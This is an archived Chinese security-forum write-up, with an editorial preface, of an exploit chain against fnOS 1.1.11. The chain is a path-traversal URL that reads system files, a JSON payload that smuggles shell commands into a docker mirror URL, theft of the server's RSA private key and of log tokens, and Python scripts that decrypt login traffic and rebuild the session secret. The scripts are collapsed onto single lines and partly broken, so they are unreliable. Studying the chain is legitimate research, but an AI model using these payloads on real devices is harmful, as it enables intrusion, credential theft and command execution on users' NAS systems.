# fnOS路径穿越与命令执行漏洞利用分析

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 三个Python代码块被压单行，import粘连注释吞代码不可运行
- 仅实验1.1.11不是完整影响范围，缺公告编号/修复版本
- 须分别记录目录遍历、日志令牌泄漏、密钥派生和认证后命令注入关系
- 抓包请求/响应解密与仅日志token解密是不同前提
- 末字节不对强制改0x6f不构成成功验证，unpad失败原样继续也易假阳性
- 核心WS签名请求只有截图
- 命令修改镜像配置及写标记文件需清理
- 来源仅用户主页缺原帖精确URL

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

/x01
                    /x01  看雪学苑   2026-02-03 09:59  
  
**0****1**  
  
  
**安装环境**  
  
# 下载历史版本镜像，以1.1.11为例，向https://fnnas.com/api/download-sign post 如下请求获得下载地址。  
  
  
  
  
  
安装完成之后即可访问web页面  
  
  
  
  
  
初始化之后成功进入桌面  
  
  
  
#   
  
**02******  
  
  
**测试poc**  
  
  
链接后加入``/app-center-static/serviceicon/myapp/%7B0%7D?size=../../../../``可以直接遍历文件  
  
  
  
  
抓包验证一下websocket开头的校验信息计算方式，正常的websocket请求：  
  
  
  
  
  
浏览器中存储的fnos-Secret：  
  
  
  
  
  
尝试构造校验信息，成功  
  
  
  
  
  
  
  
  
命令执行payload：  
  
```
{"reqid":"697da669697da3bc000000090f31","req":"appcgi.dockermgr.systemMirrorAdd","url":"https://test.example.com ; /usr/bin/touch /tmp/hacked20260131 ; /usr/bin/echo ","name":"2"}
```  
  
  
  
前面构造校验信息尝试命令执行  
  
  
  
  
  
执行成功  
  
  
  
  
  
**03**  
  
  
**获得fnos-Secret**  
  
# 在/var/log/accountsrv/info.log中有账号登录相关的日志，存储了fnos-token  
  
  
  
  
  
查看登录的websocket请求，发送：  
  
  
  
  
  
返回：  
  
  
  
  
  
结合js可以知道是客户端生成了随机的key和iv，获取服务端的publickey，使用key和iv对登录信息进行加密，然后使用publickey对key进行rsa，将加密的key和iv和aes之后的登录信息发送到服务端，服务端验证之后返回token和secret。  
  
  
拿到服务器的私钥就可以解密这些数据了，通过目录遍历下载：  
/usr/trim/etc/rsa_private_key.pem，让AI写个简单脚本：  
  
```python
import base64import jsonfrom Crypto.PublicKey import RSAfrom Crypto.Cipher import PKCS1_v1_5from Crypto.Cipher import AESfrom Crypto.Util.Padding import unpadfrom Crypto.Random import get_random_bytes# ================= 配置区域 =================# 1. 抓包获取的数据payload = {"iv": "UaNep6YYc/lwPBAZb1yhJw==","rsa": "xxx","aes": "xxx"}# 2. 私钥路径PRIVATE_KEY_FILE = "private.pem"# ================= 逻辑区域 =================def decrypt_flow():try:# --- 步骤 1: RSA 解密获取 AES Session Key ---print("[*] 正在读取私钥...")with open(PRIVATE_KEY_FILE, "rb") as f:private_key = RSA.import_key(f.read())# Base64 解码 RSA 密文encrypted_session_key = base64.b64decode(payload["rsa"])# 使用 PKCS1_v1_5 解密cipher_rsa = PKCS1_v1_5.new(private_key)sentinel = get_random_bytes(16) # 解密失败时的随机值# 获取 AES Keysession_key = cipher_rsa.decrypt(encrypted_session_key, sentinel)if session_key == sentinel:print("[-] RSA 解密失败，私钥可能不匹配或填充模式错误。")returnprint(f"[+] RSA 解密成功! 获得 AES Session Key (Hex): {session_key.hex()}")print(f"    Key 长度: {len(session_key) * 8} 位")# --- 步骤 2: AES 解密获取明文数据 ---print("\n[*] 开始解密 AES 数据...")# Base64 解码 IV 和 AES 密文iv = base64.b64decode(payload["iv"])encrypted_data = base64.b64decode(payload["aes"])# 创建 AES Cipher (通常是 CBC 模式)cipher_aes = AES.new(session_key, AES.MODE_CBC, iv)# 解密并移除填充 (PKCS7)try:decrypted_padded = cipher_aes.decrypt(encrypted_data)plaintext_bytes = unpad(decrypted_padded, AES.block_size)plaintext_str = plaintext_bytes.decode('utf-8')print("[+] AES 解密成功!")print("-" * 30)# 尝试解析为 JSON 并漂亮打印try:json_obj = json.loads(plaintext_str)print(json.dumps(json_obj, indent=4, ensure_ascii=False))except:print(plaintext_str)print("-" * 30)except ValueError as e:print(f"[-] AES 解密或去填充失败: {e}")print("    可能原因: Key 错误 (RSA解密错) 或 模式不是 CBC")except FileNotFoundError:print(f"[!] 找不到私钥文件: {PRIVATE_KEY_FILE}")except Exception as e:print(f"[!] 发生未预期的错误: {e}")if __name__ == "__main__":decrypt_flow()
```  
  
  
  
验证成功  
  
  
  
  
  
通过js代码还可以知道服务器返回的secret就是aes加密过的fnos-Secret，再写脚本验证一下。  
  
```python
import base64import jsonfrom Crypto.PublicKey import RSAfrom Crypto.Cipher import PKCS1_v1_5from Crypto.Cipher import AESfrom Crypto.Util.Padding import unpad, padfrom Crypto.Random import get_random_bytes# ================= 填入你的抓包数据 =================# 1. 登录请求包 (Request)request_payload = {"iv": "UaNep6YYc/lwPBAZb1yhJw==",  # 对应代码中的 CT (Base64)"rsa": "LAThXfsHgrZWegUJ4eG4qmdz+yucF31JuAt4MqJL9DzHLrO2KvS9FqnPbw5BUwohwfvwqeLEzIYeFmgE/uAei2Cv8X5cL+Uzb+ctHJgVVfikLaTFP1+Du3w4ohQedXRinUjolHuZvX4dIY9Nb4PW1NxHdYv3MulO8JswbQtZlHMGFfLy+7MofWfY0XZhKolSvcwQ2r+wwJnZqMVIdA2EIRrY/oTcnPLysgjJnRPNY1zu2Vd31tmCvvPNjAERB33hI+Q4p8Ro/PMs0xYCjDQGsxLIlKKJr731n4+jetd56UvQLmigs4WnHjMAhYddaT8vll1j1a9ITSAd5Air4Pfwaw==",}# 2. 登录响应包 (Response)server_response = {"secret": "CkcJHbGW4jRaBo14reTZdN24CTDn2VuKIcwjFaCmMeM=" # 服务器返回的加密 Secret}# 3. 私钥路径PRIVATE_KEY_FILE = "private.pem"# =================================================def calculate_fnos_secret():try:# --- 步骤 1: 用私钥解密 RSA，拿到 AES Session Key ---print("[*] 正在读取私钥...")with open(PRIVATE_KEY_FILE, "rb") as f:private_key = RSA.import_key(f.read())rsa_ct = base64.b64decode(request_payload["rsa"])cipher_rsa = PKCS1_v1_5.new(private_key)sentinel = get_random_bytes(16)# 这就是代码里的 'Yz' (的二进制形式)session_key_bytes = cipher_rsa.decrypt(rsa_ct, sentinel)# 前端代码 Yz = iWe(32) 生成的是32字节字符串，但CryptoJS处理时会作为WordArray# 这里的解密结果应该是原始的字节流print(f"[+] 拿到 Session Key (Hex): {session_key_bytes.hex()}")# --- 步骤 2: 准备解密参数 ---iv_bytes = base64.b64decode(request_payload["iv"])encrypted_secret_bytes = base64.b64decode(server_response["secret"])print(f"[*] IV (Hex): {iv_bytes.hex()}")print(f"[*] Server Secret (Hex): {encrypted_secret_bytes.hex()}")# --- 步骤 3: 模拟 fWe 函数进行解密 ---# fWe = t => Ti.AES.decrypt(t, qz, { iv: CT }).toString(Ti.enc.Base64);cipher_aes = AES.new(session_key_bytes, AES.MODE_CBC, iv_bytes)# AES 解密decrypted_bytes = cipher_aes.decrypt(encrypted_secret_bytes)# 移除 Padding (PKCS7) - 虽然CryptoJS的toString(Base64)会自动处理，但Python需要手动# 注意：有时候CryptoJS处理字符串填充比较宽容，如果报错，尝试不去掉unpad直接看try:final_secret_bytes = unpad(decrypted_bytes, AES.block_size)except ValueError:# 如果解密出来刚好是整块，或者格式特殊，直接用原始的final_secret_bytes = decrypted_bytes# 转为 Base64 (对应 toString(Ti.enc.Base64))fnos_secret = base64.b64encode(final_secret_bytes).decode('utf-8')print("\n" + "="*40)print(f"SUCCESS! 计算出的 fnos-Secret: {fnos_secret}")print("请检查这个值是否与你浏览器 LocalStorage 中的值一致。")print("="*40)except Exception as e:print(f"[-] 发生错误: {e}")if __name__ == "__main__":calculate_fnos_secret()
```  
  
  
  
验证成功  
  
  
  
  
  
接下来寻找服务端的逻辑，通过websocket返回的字段找出来二进制文件/usr/trim/bin/handlers/user.hdl  
  
  
  
  
  
逆向找到关键逻辑，找到secret生成逻辑，是随机数  
  
  
  
  
  
  
然后用生成的token前16字节当iv，用某个key加密，结果存到token后16字节里。  
  
  
  
  
  
  
  
  
所以使用token的前16个字节当作iv后16个字节当作密文，私钥中的特定字符当作key对秘文进行解密就可以得到secret，写个简单的脚本即可从token复原secret：  
  
```python
import base64from Crypto.Cipher import AESTARGET_TOKEN_B64 = "19FkFWR+gGmeVTtvK0dcHtiiHQ8qz8WW21vEHjtfhJI="PEM_FILE_PATH = "private.pem"def get_master_key_from_file(filepath):"""    模拟 C++ 代码逻辑：    lseek(fd, 100, 0);    read(fd, buf, 32);    """try:with open(filepath, "rb") as f:# 1. 跳过前 100 字节f.seek(100)# 2. 读取接下来的 32 字节作为 AES Keymaster_key = f.read(32)if len(master_key) != 32:print(f"[!] 警告: 读取到的 Key 长度不足 32 字节 (实际: {len(master_key)})")return Noneprint(f"[*] 成功提取 Master Key (Hex): {master_key.hex()}")print(f"    (原始字节): {master_key}")return master_keyexcept FileNotFoundError:print(f"[!] 错误: 找不到文件 {filepath}")return Nonedef decrypt_secret(token_b64, master_key):try:# 1. Base64 解码 Tokentoken_bytes = base64.b64decode(token_b64)if len(token_bytes) != 32:print(f"[!] Token 长度错误: 解码后应为 32 字节，当前为 {len(token_bytes)}")return# 2. 切分 Token# 前 16 字节 = IV (也是随机数部分)# 后 16 字节 = 加密后的 Secretiv = token_bytes[0:16]encrypted_secret = token_bytes[16:32]print(f"[*] 解析 Token:")print(f"    IV (Hex)        : {iv.hex()}")print(f"    Ciphertext (Hex): {encrypted_secret.hex()}")# 3. AES 解密# 模式: CBC (根据 iv 传递判断)# Key: 32字节 (AES-256)cipher = AES.new(master_key, AES.MODE_CBC, iv)# 因为数据刚好是 16 字节，且 C++ 那边是定长加密，所以这里解密后不需要去填充(Unpad)# 或者说它本身就是满块decrypted_bytes = cipher.decrypt(encrypted_secret)# 4. 验证特征# C++ 代码中有一行: secret[15] = 111 (即 0x6F, 字符 'o')last_byte = decrypted_bytes[-1]is_valid = (last_byte == 111)print("-" * 40)if is_valid:passelse:tmplist = list(decrypted_bytes[:-1])tmplist.append(0x6f)decrypted_bytes = bytes(tmplist)# 5. 生成最终的 fnos-Secret (Base64格式)final_secret = base64.b64encode(decrypted_bytes).decode('utf-8')print(f"\n[SUCCESS] 还原出的 fnos-Secret:\n")print(f"{final_secret}")print(f"\n你可以用这个 Secret 去签名 WebSocket 消息了。")print("-" * 40)except Exception as e:print(f"[!] 解密过程发生错误: {e}")if __name__ == "__main__":print("=== fnOS Token 还原 Secret 工具 ===\n")# 步骤 1: 提取 Keykey = get_master_key_from_file(PEM_FILE_PATH)# 步骤 2: 解密if key:decrypt_secret(TARGET_TOKEN_B64, key)
```  
  
  
##   
  
  
  
  
看雪ID：  
/x01  
  
https://bbs.kanxue.com/user-home-929564.htm  
  
*本文为看雪论坛精华文章，由   
/x01  
   
原创，转载请注明来自看雪社区  
  
[](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458605280&idx=3&sn=b862b079ee38c0e9607690b0574930dc&scene=21#wechat_redirect)  
  
  
# 往期推荐  
  
[深入浅出 Android Hook 技术：Frida 框架入门系列](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458608939&idx=1&sn=1f40272488c196228ffd477b34e89d34&scene=21#wechat_redirect)  
  
  
[强网杯S9 Real World - monotint](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458608873&idx=1&sn=6847c40b551141a8d7a336c01ee7b5c7&scene=21#wechat_redirect)  
  
  
[从0手搓IDA反编译引擎之基于支配树和回边的自然循环识别模块](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458608872&idx=1&sn=fa842003e52dcb2c7511fb554d2b0880&scene=21#wechat_redirect)  
  
  
[Linux 内核攻击：Punch hole (2025 Backdoor skernel 复现)](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458608775&idx=2&sn=d7c9a376e077cb25a0ac432f8b6eb448&scene=21#wechat_redirect)  
  
  
[APP风控参数分析&Frida绕过](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458608753&idx=1&sn=df2711ac0d706281b8d43a466004fa88&scene=21#wechat_redirect)  
  
  
  
  
  
  
  
**球分享**  
  
  
  
**球点赞**  
  
  
  
**球在看**  
  
  
  
  
点击阅读原文查看更多  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
